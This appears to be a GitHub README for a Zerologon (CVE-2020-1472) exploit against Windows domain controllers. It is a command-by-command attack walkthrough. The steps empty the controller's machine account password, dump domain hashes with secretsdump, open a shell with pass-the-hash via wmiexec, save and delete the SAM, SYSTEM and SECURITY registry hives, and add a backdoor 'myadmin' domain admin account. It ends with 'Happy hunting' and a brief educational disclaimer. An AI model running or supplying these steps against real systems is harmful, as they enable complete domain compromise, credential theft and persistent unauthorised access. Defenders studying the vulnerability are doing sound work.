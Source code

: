 # zerologon
zerologon script to exploit CVE-2020-1472 CVSS 10/10
Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc. https://github.com/risksense/zerologon

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer.

`apt update  `

`apt remove --purge impacket-scripts python3-impacket   `  
`apt autoremove`  

`git clone https://github.com/rthalley/dnspython.git     `  
`sudo python3 setup.py install    `  
`cd ..    `  
`git clone https://github.com/SecureAuthCorp/impacket.git    `  
`cd impacket    `  
`sudo python3 setup.py install    `  
`git clone    `  

Then, do:

`python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR`

If that's successful you will then be able to:

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

pressing "Enter" on prompt for password will pass you through,
which should get you Domain Admin hash. After you have that, wmiexec.py to the target DC with a credential from the secretsdump 

`wmiexec.py domain/Administrator@ip -hashes hash`

and do

`reg save HKLM\SYSTEM system.save\`   
`get system.save\  `
`del /f system.save\`  
    
    
`reg save HKLM\SAM sam.save`    
`get sam.save`   
`del /f sam.save`  


`reg save HKLM\SECURITY security.save  
get security.save  
del /f security.save`  

And then you can create a new Admin account just in case, 

`net user myadmin Hello1234 /ADD /DOMAIN`

and add the new account to domain admins group to obtain full privilages,

`net group "Domain Admins" myadmin /ADD /DOMAIN`

and probably `exit` now from C:\>

Then you can run

`sudo secretsdump.py -sam sam.save -system system.save -security security.save LOCAL`

And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by

`python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH`

Reinstalling the original hash is necessary for the DC to continue operating normally.

And just to make sure if the restoration process worked,

`sudo secretsdump.py -just-dc domain/hostname\$@ip`

and prressing "Enter" at password prompt won't work anymore.

And we're done here.

Happy hunting.

DISCLAIMER: This is purely for educational purposes, I will not be held responsible for any actions or their consequences
HACKING INTO SOMEONE ELSE'S DEVICE IS ILLEGAL AND IS PUNISHABLE BY LAW.

